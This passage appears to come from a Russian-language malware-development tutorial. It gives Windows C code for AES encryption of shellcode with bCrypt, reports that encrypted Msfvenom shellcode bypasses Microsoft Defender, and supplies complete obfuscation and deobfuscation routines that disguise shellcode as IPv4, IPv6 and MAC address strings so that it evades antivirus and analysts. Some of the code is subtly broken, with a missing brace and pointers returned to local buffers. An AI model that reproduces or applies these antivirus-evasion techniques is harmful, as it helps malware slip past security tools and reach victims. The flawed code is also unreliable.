if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptEncrypt[1] Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Allocating enough memory for the output buffer, cbCipherText
pbCipherText = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbCipherText);
if (pbCipherText == NULL) {
bSTATE = FALSE; goto _EndOfFunc;
}
// Running BCryptEncrypt again with pbCipherText as the output buffer
STATUS = BCryptEncrypt(hKeyHandle, (PUCHAR)pAes->pPlainText, (ULONG)pAes->dwPlainSize, NULL, pAes->pIv, IVSIZE, pbCipherText, cbCipherText, &cbResult, BCRYPT_BLOCK_PADDING);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptEncrypt[2] Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Clean up
_EndOfFunc:
if (hKeyHandle)
BCryptDestroyKey(hKeyHandle);
if (hAlgorithm)
BCryptCloseAlgorithmProvider(hAlgorithm, 0);
if (pbKeyObject)
HeapFree(GetProcessHeap(), 0, pbKeyObject);
if (pbCipherText != NULL && bSTATE) {
// If everything worked, save pbCipherText and cbCipherText
pAes->pCipherText = pbCipherText;
pAes->dwCipherSize = cbCipherText;
}
return bSTATE;
}Функция InstallAesDecryption
Функция InstallAesDecryption выполняет расшифровку по методу AES.
Функция имеет один параметр, PAES, который является указателем на заполненную структуру AES.
Функции библиотеки bCrypt, используемые в этой функции, такие же, как и в функции InstallAesEncryption выше, единственное различие заключается в том, что используется BCryptDecrypt вместо BCryptEncrypt.
BCryptDecrypt - Используется для расшифровки указанного блока данных.
Эта функция вызывается дважды: в первый раз для получения размера расшифрованных данных, чтобы выделить буфер кучи этого размера. Второй вызов расшифровывает данные и сохраняет текстовые данные в выделенной куче.
Функция возвращает TRUE, если успешно расшифровывает полезную нагрузку, в противном случае - FALSE.
C:
// The decryption implementation
BOOL InstallAesDecryption(PAES pAes) {
BOOL bSTATE = TRUE;
BCRYPT_ALG_HANDLE hAlgorithm = NULL;
BCRYPT_KEY_HANDLE hKeyHandle = NULL;
ULONG cbResult = NULL;
DWORD dwBlockSize = NULL;
DWORD cbKeyObject = NULL;
PBYTE pbKeyObject = NULL;
PBYTE pbPlainText = NULL;
DWORD cbPlainText = NULL,
// Intializing "hAlgorithm" as AES algorithm Handle
STATUS = BCryptOpenAlgorithmProvider(&hAlgorithm, BCRYPT_AES_ALGORITHM, NULL, 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptOpenAlgorithmProvider Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Getting the size of the key object variable pbKeyObject. This is used by the BCryptGenerateSymmetricKey function later
STATUS = BCryptGetProperty(hAlgorithm, BCRYPT_OBJECT_LENGTH, (PBYTE)&cbKeyObject, sizeof(DWORD), &cbResult, 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptGetProperty[1] Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Getting the size of the block used in the encryption. Since this is AES it should be 16 bytes.
STATUS = BCryptGetProperty(hAlgorithm, BCRYPT_BLOCK_LENGTH, (PBYTE)&dwBlockSize, sizeof(DWORD), &cbResult, 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptGetProperty[2] Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Checking if block size is 16 bytes
if (dwBlockSize != 16) {
bSTATE = FALSE; goto _EndOfFunc;
}
// Allocating memory for the key object
pbKeyObject = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbKeyObject);
if (pbKeyObject == NULL) {
bSTATE = FALSE; goto _EndOfFunc;
}
// Setting Block Cipher Mode to CBC. This uses a 32 byte key and a 16 byte IV.
STATUS = BCryptSetProperty(hAlgorithm, BCRYPT_CHAINING_MODE, (PBYTE)BCRYPT_CHAIN_MODE_CBC, sizeof(BCRYPT_CHAIN_MODE_CBC), 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptSetProperty Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Generating the key object from the AES key "pAes->pKey". The output will be saved in pbKeyObject of size cbKeyObject
STATUS = BCryptGenerateSymmetricKey(hAlgorithm, &hKeyHandle, pbKeyObject, cbKeyObject, (PBYTE)pAes->pKey, KEYSIZE, 0);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptGenerateSymmetricKey Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Running BCryptDecrypt first time with NULL output parameters to retrieve the size of the output buffer which is saved in cbPlainText
STATUS = BCryptDecrypt(hKeyHandle, (PUCHAR)pAes->pCipherText, (ULONG)pAes->dwCipherSize, NULL, pAes->pIv, IVSIZE, NULL, 0, &cbPlainText, BCRYPT_BLOCK_PADDING);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptDecrypt[1] Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Allocating enough memory for the output buffer, cbPlainText
pbPlainText = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbPlainText);
if (pbPlainText == NULL) {
bSTATE = FALSE; goto _EndOfFunc;
}
// Running BCryptDecrypt again with pbPlainText as the output buffer
STATUS = BCryptDecrypt(hKeyHandle, (PUCHAR)pAes->pCipherText, (ULONG)pAes->dwCipherSize, NULL, pAes->pIv, IVSIZE, pbPlainText, cbPlainText, &cbResult, BCRYPT_BLOCK_PADDING);
if (!NT_SUCCESS(STATUS)) {
printf("[!] BCryptDecrypt[2] Failed With Error: 0x%0.8X \n", STATUS);
bSTATE = FALSE; goto _EndOfFunc;
}
// Clean up
_EndOfFunc:
if (hKeyHandle)
BCryptDestroyKey(hKeyHandle);
if (hAlgorithm)
BCryptCloseAlgorithmProvider(hAlgorithm, 0);
if (pbKeyObject)
HeapFree(GetProcessHeap(), 0, pbKeyObject);
if (pbPlainText != NULL && bSTATE) {
// if everything went well, we save pbPlainText and cbPlainText
pAes->pPlainText = pbPlainText;
pAes->dwPlainSize = cbPlainText;
}
return bSTATE;
}Дополнительные вспомогательные функции
Код также включает в себя две небольшие вспомогательные функции: PrintHexData и GenerateRandomBytes.
Первая функция, PrintHexData, выводит входной буфер в виде массива символов в синтаксисе C на консоль.
C:
// Вывод входного буфера в виде шестнадцатеричного массива символов
VOID PrintHexData(LPCSTR Name, PBYTE Data, SIZE_T Size) {
printf("unsigned char %s[] = {", Name);
for (int i = 0; i < Size; i++) {
if (i % 16 == 0)
printf("\n\t");
if (i < Size - 1) {
printf("0x%0.2X, ", Data[i]);
else
printf("0x%0.2X ", Data[i]);
}
printf("};\n\n\n");
}Другая функция, GenerateRandomBytes, заполняет входной буфер случайными байтами, которые в этом контексте используются для генерации случайного ключа и инициализирующего вектора (IV).
C:
// Генерация случайных байт заданного размера
VOID GenerateRandomBytes(PBYTE pByte, SIZE_T sSize) {
for (int i = 0; i < sSize; i++) {
pByte[i] = (BYTE)rand() % 0xFF;
}
}Пример использования:
Ниже представлена основная функция, которая используется для выполнения процедуры шифрования массива открытого текста.
C:
// The plaintext, in hex format, that will be encrypted
// this is the following string in hex "This is a plain text string, we'll try to encrypt/decrypt !"
unsigned char Data[] = {
0x54, 0x68, 0x69, 0x73, 0x20, 0x69, 0x73, 0x20, 0x61, 0x20, 0x70, 0x6C,
0x61, 0x69, 0x6E, 0x20, 0x74, 0x65, 0x78, 0x74, 0x20, 0x73, 0x74, 0x72,
0x69, 0x6E, 0x67, 0x2C, 0x20, 0x77, 0x65, 0x27, 0x6C, 0x6C, 0x20, 0x74,
0x72, 0x79, 0x20, 0x74, 0x6F, 0x20, 0x65, 0x6E, 0x63, 0x72, 0x79, 0x70,
0x74, 0x2F, 0x64, 0x65, 0x63, 0x72, 0x79, 0x70, 0x74, 0x20, 0x21
};
int main() {
BYTE pKey [KEYSIZE]; // KEYSIZE is 32 bytes
BYTE pIv [IVSIZE]; // IVSIZE is 16 bytes
srand(time(NULL)); // The seed to generate the key. This is used to further randomize the key.
GenerateRandomBytes(pKey, KEYSIZE); // Generating a key with the helper function
srand(time(NULL) ^ pKey[0]); // The seed to generate the IV. Use the first byte of the key to add more randomness.
GenerateRandomBytes(pIv, IVSIZE); // Generating the IV with the helper function
// Printing both key and IV onto the console
PrintHexData("pKey", pKey, KEYSIZE);
PrintHexData("pIv", pIv, IVSIZE);
// Defining two variables the output buffer and its respective size which will be used in SimpleEncryption
PVOID pCipherText = NULL;
DWORD dwCipherSize = NULL;
// Encrypting
if (!SimpleEncryption(Data, sizeof(Data), pKey, pIv, &pCipherText, &dwCipherSize)) {
return -1;
}
// Print the encrypted buffer as a hex array
PrintHexData("CipherText", pCipherText, dwCipherSize);
// Clean up
HeapFree(GetProcessHeap(), 0, pCipherText);
system("PAUSE");
return 0;
}Этот код демонстрирует, как можно реализовать шифрование данных с использованием AES.

Пример расшифровки данных
Ниже представлена основная функция, которая используется для выполнения процедуры дешифрования.
Для процедуры дешифрования требуются ключ дешифрования, инициализирующий вектор (IV) и шифртекст.
C:
// the key printed to the screen
unsigned char pKey[] = {
0x3E, 0x31, 0xF4, 0x00, 0x50, 0xB6, 0x6E, 0xB8, 0xF6, 0x98, 0x95, 0x27, 0x43, 0x27, 0xC0, 0x55,
0xEB, 0xDB, 0xE1, 0x7F, 0x05, 0xFE, 0x65, 0x6D, 0x0F, 0xA6, 0x5B, 0x00, 0x33, 0xE6, 0xD9, 0x0B };
// the iv printed to the screen
unsigned char pIv[] = {
0xB4, 0xC8, 0x1D, 0x1D, 0x14, 0x7C, 0xCB, 0xFA, 0x07, 0x42, 0xD9, 0xED, 0x1A, 0x86, 0xD9, 0xCD };
// the encrypted buffer printed to the screen, which is:
unsigned char CipherText[] = {
0x97, 0xFC, 0x24, 0xFE, 0x97, 0x64, 0xDF, 0x61, 0x81, 0xD8, 0xC1, 0x9E, 0x23, 0x30, 0x79, 0xA1,
0xD3, 0x97, 0x5B, 0xAE, 0x29, 0x7F, 0x70, 0xB9, 0xC1, 0xEC, 0x5A, 0x09, 0xE3, 0xA4, 0x44, 0x67,
0xD6, 0x12, 0xFC, 0xB5, 0x86, 0x64, 0x0F, 0xE5, 0x74, 0xF9, 0x49, 0xB3, 0x0B, 0xCA, 0x0C, 0x04,
0x17, 0xDB, 0xEF, 0xB2, 0x74, 0xC2, 0x17, 0xF6, 0x34, 0x60, 0x33, 0xBA, 0x86, 0x84, 0x85, 0x5E };
int main() {
// Defining two variables the output buffer and its respective size which will be used in SimpleDecryption
PVOID pPlaintext = NULL;
DWORD dwPlainSize = NULL;
// Decrypting
if (!SimpleDecryption(CipherText, sizeof(CipherText), pKey, pIv, &pPlaintext, &dwPlainSize)) {
return -1;
}
// Printing the decrypted data to the screen in hex format
PrintHexData("PlainText", pPlaintext, dwPlainSize);
// this will print: "This is a plain text string, we'll try to encrypt/decrypt !"
printf("Data: %s \n", pPlaintext);
// Clean up
HeapFree(GetProcessHeap(), 0, pPlaintext);
system("PAUSE");
return 0;
}

Недостатки библиотеки bCrypt
Одним из основных недостатков использования описанного выше метода для реализации шифрования AES является то, что использование криптографических функций WinAPI приводит к их появлению в таблице импорта адресов (IAT) бинарного файла.
Решения безопасности могут обнаруживать использование криптографических функций, сканируя IAT, что может потенциально указывать на вредоносное поведение или вызвать подозрения.
Скрытие WinAPI в IAT возможно и будет обсуждаться в следующих статьях.
На изображении ниже показана IAT бинарного файла, использующего Windows API для шифрования AES. Использование библиотеки crypt.dll и криптографических функций явно видно.

Обход статического анализа Microsoft Defender
Пример использования алгоритмов шифрования XOR, RC4 и AES для обхода статического анализатора Microsoft Defender.
На этом этапе учебного модуля полезная нагрузка (payload) не выполняется, она просто выводится на консоль. Поэтому в этом модуле основное внимание уделяется исключительно обходу статического анализа и сигнатурному обнаружению.
Каждый из примеров кода использует шелл-код Msfvenom.
Необработанный шелл-код (Raw Shellcode) - обнаружен Defender'ом.

XOR-шифрованный шелл-код - успешно обходит Defender.

AES-шифрованный шелл-код - успешно обходит Defender.

RC4-шифрованный шелл-код - успешно обходит Defender.

Обфускация Payload

В предыдущих статьях обсуждались вопросы размещения полезной нагрузки и её шифрование.
Но как уже было замечено этого не достаточно для сбития детекта, необходимо обойти ещё детект по поведению и эмуляцию кода.
С детектом по поведению немного сложнее, но детект по эмуляции кода можно обойти как вариант обфускацией этого самого кода.)
Предлагаю в этой статье рассмотреть обфускацию полезной нагрузки, далее уже всё зависит что делает ваша ПО, вообще изначально нужно проектировать софт так, что-бы у него не было подозрительного поведения.
В статье будут рассматриваться три способа обфускации...
Что-бы антивирусу или исследователю кода было хорошо, рекомендуется применять шифрование + несколько методов обфускации в комплексе.)
1)IPv4/IPv6Fuscation - это метод обфускации, при котором байты shellcode преобразуются в строки IPv4 или IPv6. Давайте рассмотрим несколько байтов из shellcode Msfvenom x64 calc и проанализируем, как их можно преобразовать в строки IPv4 или IPv6. Для этого примера используются следующие байты:
FC 48 83 E4 F0 E8 C0 00 00 00 41 51 41 50 52 51.
IPv4Fuscation - Поскольку адреса IPv4 состоят из 4 октетов, IPv4Fuscation использует 4 байта для генерации одной строки IPv4, где каждый байт представляет собой октет. Возьмите каждый байт, который в данный момент в формате hex, и преобразуйте его в десятичный формат, чтобы получить один октет. Например, FC равно 252 в десятичной форме, 48 равно 72, 83 равно 131, и E4 равно 228. Таким образом, первые 4 байта примера shellcode, FC 48 83 E4 будут 252.72.131.228.
IPv6Fuscation - Этот метод будет использовать аналогичную логику, как в примере IPv4Fuscation, но вместо использования 4 байтов на IP-адрес, используется 16 байтов для генерации одного адреса IPv6. Кроме того, преобразование байтов в десятичный формат не требуется для адресов IPv6. В качестве примера для указанного shellcode это будет FC48:83E4:F0E8:C000:0000:4151:4150:5251.
Реализация IPv4Fuscation
Теперь, когда логика объяснена, этот раздел будет посвящен реализации IPv4Fuscation. Несколько моментов о приведенном ниже фрагменте кода:
Как уже упоминалось ранее, для генерации адреса IPv4 требуется 4 байта, поэтому shellcode должен состоять из кратного 4 числа байтов. Можно создать функцию, которая дополняет shellcode, если он не соответствует этому требованию.
GenerateIpv4 - это вспомогательная функция, которая принимает 4 байта shellcode и использует sprintf для генерации адреса IPv4.
Наконец, код охватывает только обфускацию, в то время как деобфускация объясняется чуть позже.
C:
// Function takes in 4 raw bytes and returns them in an IPv4 string format
char* GenerateIpv4(int a, int b, int c, int d) {
unsigned char Output [32];
// Creating the IPv4 address and saving it to the 'Output' variable
sprintf(Output, "%d.%d.%d.%d", a, b, c, d);
// Optional: Print the 'Output' variable to the console
// printf("[i] Output: %s\n", Output);
return (char*)Output;
}
// Generate the IPv4 output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateIpv4Output(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
// If the shellcode buffer is null or the size is not a multiple of 4, exit
if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 4 != 0){
return FALSE;
}
printf("char* Ipv4Array[%d] = { \n\t", (int)(ShellcodeSize / 4));
// We will read one shellcode byte at a time, when the total is 4, begin generating the IPv4 address
// The variable 'c' is used to store the number of bytes read. By default, starts at 4.
int c = 4, counter = 0;
char* IP = NULL;
for (int i = 0; i < ShellcodeSize; i++) {
// Track the number of bytes read and when they reach 4 we enter this if statement to begin generating the IPv4 address
if (c == 4) {
counter++;
// Generating the IPv4 address from 4 bytes which begin at i until [i + 3]
IP = GenerateIpv4(pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3]);
if (i == ShellcodeSize - 4) {
// Printing the last IPv4 address
printf("\"%s\"", IP);
break;
}
else {
// Printing the IPv4 address
printf("\"%s\", ", IP);
}
c = 1;
// Optional: To beautify the output on the console
if (counter % 8 == 0) {
printf("\n\t");
}
}
else {
c++;
}
}
printf("\n};\n\n");
return TRUE;
}Реализация IPv6Fuscation
При использовании IPv6Fuscation shellcode должен быть кратен 16. Опять же, можно создать функцию, которая дополняет shellcode, если он не соответствует этому требованию.
C:
// Function takes in 16 raw bytes and returns them in an IPv6 address string format
char* GenerateIpv6(int a, int b, int c, int d, int e, int f, int g, int h, int i, int j, int k, int l, int m, int n, int o, int p) {
// Each IPv6 segment is 32 bytes
char Output0[32], Output1[32], Output2[32], Output3[32];
// There are 4 segments in an IPv6 (32 * 4 = 128)
char result[128];
// Generating output0 using the first 4 bytes
sprintf(Output0, "%0.2X%0.2X:%0.2X%0.2X", a, b, c, d);
// Generating output1 using the second 4 bytes
sprintf(Output1, "%0.2X%0.2X:%0.2X%0.2X", e, f, g, h);
// Generating output2 using the third 4 bytes
sprintf(Output2, "%0.2X%0.2X:%0.2X%0.2X", i, j, k, l);
// Generating output3 using the last 4 bytes
sprintf(Output3, "%0.2X%0.2X:%0.2X%0.2X", m, n, o, p);
// Combining Output0,1,2,3 to generate the IPv6 address
sprintf(result, "%s:%s:%s:%s", Output0, Output1, Output2, Output3);
// Optional: Print the 'result' variable to the console
// printf("[i] result: %s\n", (char*)result);
return (char*)result;
}
// Generate the IPv6 output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateIpv6Output(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
// If the shellcode buffer is null or the size is not a multiple of 16, exit
if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 16 != 0){
return FALSE;
}
printf("char* Ipv6Array [%d] = { \n\t", (int)(ShellcodeSize / 16));
// We will read one shellcode byte at a time, when the total is 16, begin generating the IPv6 address
// The variable 'c' is used to store the number of bytes read. By default, starts at 16.
int c = 16, counter = 0;
char* IP = NULL;
for (int i = 0; i < ShellcodeSize; i++) {
// Track the number of bytes read and when they reach 16 we enter this if statement to begin generating the IPv6 address
if (c == 16) {
counter++;
// Generating the IPv6 address from 16 bytes which begin at i until [i + 15]
IP = GenerateIpv6(
pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3],
pShellcode[i + 4], pShellcode[i + 5], pShellcode[i + 6], pShellcode[i + 7],
pShellcode[i + 8], pShellcode[i + 9], pShellcode[i + 10], pShellcode[i + 11],
pShellcode[i + 12], pShellcode[i + 13], pShellcode[i + 14], pShellcode[i + 15]
);
if (i == ShellcodeSize - 16) {
// Printing the last IPv6 address
printf("\"%s\"", IP);
break;
}
else {
// Printing the IPv6 address
printf("\"%s\", ", IP);
}
c = 1;
// Optional: To beautify the output on the console
if (counter % 3 == 0) {
printf("\n\t");
}
}
else {
c++;
}
}
printf("\n};\n\n");
return TRUE;
}Деобфускация IPv4/IPv6Fuscation
После того как обфусцированный payload успешно обошел статическое обнаружение, его необходимо деобфусцировать для выполнения. Процесс деобфускации будет обратным процессу обфускации, позволяя генерировать байты из IP-адреса вместо использования байтов для генерации IP-адреса. Деобфускация потребует следующего:
IPv4 Деобфускация - Для этого потребуется использование NTAPI RtlIpv4StringToAddressA. Она преобразует строковое представление IPv4-адреса в бинарный IPv4-адрес.
IPv6 Деобфускация - Аналогично предыдущей функции, для деобфускации IPv6 потребуется использование другой NTAPI RtlIpv6StringToAddressA. Эта функция преобразует IPv6-адрес в бинарный IPv6-адрес.
Деобфускация Payloads IPv4Fuscation
Функция Ipv4Deobfuscation принимает Ipv4Array в качестве первого параметра, который представляет собой массив IPv4-адресов. Второй параметр - это NmbrOfElements, который представляет собой количество IPv4-адресов в массиве Ipv4Array для итерации по размеру массива. Последние 2 параметра, ppDAddress и pDSize, будут использоваться для хранения деобфусцированного payload и его размера соответственно.
Процесс деобфускации начинается с получения адреса функции RtlIpv4StringToAddressA с использованием GetProcAddress и GetModuleHandle. Затем выделяется буфер, который в конечном итоге будет хранить деобфусцированный payload размера NmbrOfElements * 4. Логика за этим размером в том, что каждый IPv4 будет генерировать 4 байта.
Переходим к циклу for. Сначала определяется новая переменная, TmpBuffer, и она устанавливается равной pBuffer. Затем TmpBuffer передается в RtlIpv4StringToAddressA как четвертый параметр, где будет храниться бинарное представление IPv4-адреса. Функция RtlIpv4StringToAddressA записывает 4 байта в буфер TmpBuffer, поэтому после этого TmpBuffer увеличивается на 4, чтобы позволить следующим 4 байтам быть записанным в него без перезаписи предыдущих байтов.
Наконец, ppDAddress и pDSize устанавливаются для хранения базового адреса деобфусцированного payload, а также его размера.
C:
typedef NTSTATUS (NTAPI* fnRtlIpv4StringToAddressA)(
PCSTR S,
BOOLEAN Strict,
PCSTR* Terminator,
PVOID Addr
);
BOOL Ipv4Deobfuscation(IN CHAR* Ipv4Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {
PBYTE pBuffer = NULL,
TmpBuffer = NULL;
SIZE_T sBuffSize = NULL;
PCSTR Terminator = NULL;
NTSTATUS STATUS = NULL;
// Getting RtlIpv4StringToAddressA address from ntdll.dll
fnRtlIpv4StringToAddressA pRtlIpv4StringToAddressA = (fnRtlIpv4StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv4StringToAddressA");
if (pRtlIpv4StringToAddressA == NULL){
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the real size of the shellcode which is the number of IPv4 addresses * 4
sBuffSize = NmbrOfElements * 4;
// Allocating memory which will hold the deobfuscated shellcode
pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
if (pBuffer == NULL){
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Setting TmpBuffer to be equal to pBuffer
TmpBuffer = pBuffer;
// Loop through all the IPv4 addresses saved in Ipv4Array
for (int i = 0; i < NmbrOfElements; i++) {
// Deobfuscating one IPv4 address at a time
// Ipv4Array[i] is a single ipv4 address from the array Ipv4Array
if ((STATUS = pRtlIpv4StringToAddressA(Ipv4Array[i], FALSE, &Terminator, TmpBuffer)) != 0x0) {
// if it failed
printf("[!] RtlIpv4StringToAddressA Failed At [%s] With Error 0x%0.8X", Ipv4Array[i], STATUS);
return FALSE;
}
// 4 bytes are written to TmpBuffer at a time
// Therefore Tmpbuffer will be incremented by 4 to store the upcoming 4 bytes
TmpBuffer = (PBYTE)(TmpBuffer + 4);
}
// Save the base address & size of the deobfuscated payload
*ppDAddress = pBuffer;
*pDSize = sBuffSize;
return TRUE;
}Следующий рисунок показывает, что указанный код успешно запущен...

Деобфускация Payloads IPv6Fuscation
Все шаги в процессе деобфускации для IPv6 такие же, как и для IPv4, за исключением двух основных различий:
- Используется RtlIpv6StringToAddressA вместо RtlIpv4StringToAddressA.
- Каждый IPv6-адрес деобфусцируется в 16 байтов вместо 4 байтов.
C:
typedef NTSTATUS(NTAPI* fnRtlIpv6StringToAddressA)(
PCSTR S,
PCSTR* Terminator,
PVOID Addr
);
BOOL Ipv6Deobfuscation(IN CHAR* Ipv6Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {
PBYTE pBuffer = NULL,
TmpBuffer = NULL;
SIZE_T sBuffSize = NULL;
PCSTR Terminator = NULL;
NTSTATUS STATUS = NULL;
// Getting RtlIpv6StringToAddressA address from ntdll.dll
fnRtlIpv6StringToAddressA pRtlIpv6StringToAddressA = (fnRtlIpv6StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv6StringToAddressA");
if (pRtlIpv6StringToAddressA == NULL) {
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the real size of the shellcode which is the number of IPv6 addresses * 16
sBuffSize = NmbrOfElements * 16;
// Allocating memory which will hold the deobfuscated shellcode
pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
if (pBuffer == NULL) {
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
TmpBuffer = pBuffer;
// Loop through all the IPv6 addresses saved in Ipv6Array
for (int i = 0; i < NmbrOfElements; i++) {
// Deobfuscating one IPv6 address at a time
// Ipv6Array[i] is a single IPv6 address from the array Ipv6Array
if ((STATUS = pRtlIpv6StringToAddressA(Ipv6Array[i], &Terminator, TmpBuffer)) != 0x0) {
// if it failed
printf("[!] RtlIpv6StringToAddressA Failed At [%s] With Error 0x%0.8X", Ipv6Array[i], STATUS);
return FALSE;
}
// 16 bytes are written to TmpBuffer at a time
// Therefore Tmpbuffer will be incremented by 16 to store the upcoming 16 bytes
TmpBuffer = (PBYTE)(TmpBuffer + 16);
}
// Save the base address & size of the deobfuscated payload
*ppDAddress = pBuffer;
*pDSize = sBuffSize;
return TRUE;
}Следующий рисунок показывает, что указанный код успешно запущен...

2)Реализация MACFuscation
Реализация MACFuscation будет аналогична тому, что было сделано в предыдущем модуле с IPv4/IPv6fuscation. MAC-адрес состоит из 6 байтов, поэтому shellcode должен быть кратным 6, который, как и ранее, может быть дополнен, если он не соответствует этому требованию.
Принцип работы очень прост: каждые 6 байтов shellcode преобразуются в один MAC-адрес. Этот подход позволяет создать дополнительный уровень обфускации, так как MAC-адреса являются стандартными и не вызовут подозрений при статическом анализе.
Важно помнить, что, как и с другими методами обфускации, MACFuscation не добавляет дополнительного уровня безопасности или шифрования к shellcode, а просто меняет его внешний вид. Это делается для того, чтобы затруднить обнаружение и анализ shellcode.
C:
// Function takes in 6 raw bytes and returns them in a MAC address string format
char* GenerateMAC(int a, int b, int c, int d, int e, int f) {
char Output[64];
// Creating the MAC address and saving it to the 'Output' variable
sprintf(Output, "%0.2X-%0.2X-%0.2X-%0.2X-%0.2X-%0.2X",a, b, c, d, e, f);
// Optional: Print the 'Output' variable to the console
// printf("[i] Output: %s\n", Output);
return (char*)Output;
}
// Generate the MAC output representation of the shellcode
// Function requires a pointer or base address to the shellcode buffer & the size of the shellcode buffer
BOOL GenerateMacOutput(unsigned char* pShellcode, SIZE_T ShellcodeSize) {
// If the shellcode buffer is null or the size is not a multiple of 6, exit
if (pShellcode == NULL || ShellcodeSize == NULL || ShellcodeSize % 6 != 0){
return FALSE;
}
printf("char* MacArray [%d] = {\n\t", (int)(ShellcodeSize / 6));
// We will read one shellcode byte at a time, when the total is 6, begin generating the MAC address
// The variable 'c' is used to store the number of bytes read. By default, starts at 6.
int c = 6, counter = 0;
char* Mac = NULL;
for (int i = 0; i < ShellcodeSize; i++) {
// Track the number of bytes read and when they reach 6 we enter this if statement to begin generating the MAC address
if (c == 6) {
counter++;
// Generating the MAC address from 6 bytes which begin at i until [i + 5]
Mac = GenerateMAC(pShellcode[i], pShellcode[i + 1], pShellcode[i + 2], pShellcode[i + 3], pShellcode[i + 4], pShellcode[i + 5]);
if (i == ShellcodeSize - 6) {
// Printing the last MAC address
printf("\"%s\"", Mac);
break;
}
else {
// Printing the MAC address
printf("\"%s\", ", Mac);
}
c = 1;
// Optional: To beautify the output on the console
if (counter % 6 == 0) {
printf("\n\t");
}
}
else {
c++;
}
}
printf("\n};\n\n");
return TRUE;
}Деобфускация Payloads MACFuscation
Процесс деобфускации будет обратным процессу обфускации, позволяя генерировать байты из MAC-адреса вместо использования байтов для создания MAC-адреса. Для выполнения деобфускации потребуется использование функции NTDLL API - RtlEthernetStringToAddressA. Эта функция преобразует MAC-адрес из строкового представления в его бинарный формат.
Для деобфускации payload, который был обфусцирован с использованием MACFuscation, вы должны будете выполнить следующие шаги:
- Инициализация: Получите адрес функции RtlEthernetStringToAddressA с использованием GetProcAddress и GetModuleHandle.
- Выделите буфер для деобфусцированного payload. Поскольку каждый MAC-адрес генерирует 6 байтов, размер буфера будет кратен 6.
- Итерация: Пройдите через каждый MAC-адрес в обфусцированном payload.
- Конвертация: Используйте RtlEthernetStringToAddressA для преобразования каждого MAC-адреса из строкового представления в бинарный формат.
- Сохранение: Добавьте преобразованные байты в буфер деобфусцированного payload.
C:
typedef NTSTATUS (NTAPI* fnRtlEthernetStringToAddressA)(
PCSTR S,
PCSTR* Terminator,
PVOID Addr
);
BOOL MacDeobfuscation(IN CHAR* MacArray[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {
PBYTE pBuffer = NULL,
TmpBuffer = NULL;
SIZE_T sBuffSize = NULL;
PCSTR Terminator = NULL;
NTSTATUS STATUS = NULL;
// Getting RtlIpv6StringToAddressA address from ntdll.dll
fnRtlEthernetStringToAddressA pRtlEthernetStringToAddressA = (fnRtlEthernetStringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlEthernetStringToAddressA");
if (pRtlEthernetStringToAddressA == NULL) {
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
return FALSE;
}
// Getting the real size of the shellcode which is the number of MAC addresses * 6
sBuffSize = NmbrOfElements * 6;
// Allocating memeory which will hold the deobfuscated shellcode
pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
if (pBuffer == NULL) {
printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
return FALSE;
}
TmpBuffer = pBuffer;
// Loop through all the MAC addresses saved in MacArray
for (int i = 0; i < NmbrOfElements; i++) {
// Deobfuscating one MAC address at a time
// MacArray[i] is a single Mac address from the array MacArray
if ((STATUS = pRtlEthernetStringToAddressA(MacArray[i], &Terminator, TmpBuffer)) != 0x0) {
// if it failed
printf("[!] RtlEthernetStringToAddressA Failed At [%s] With Error 0x%0.8X", MacArray[i], STATUS);
return FALSE;
}
// 6 bytes are written to TmpBuffer at a time
// Therefore Tmpbuffer will be incremented by 6 to store the
TmpBuffer = (PBYTE)(TmpBuffer + 6);
}
// Save the base address & size of the deobfuscated payload
*ppDAddress = pBuffer;
*pDSize = sBuffSize;
return TRUE;
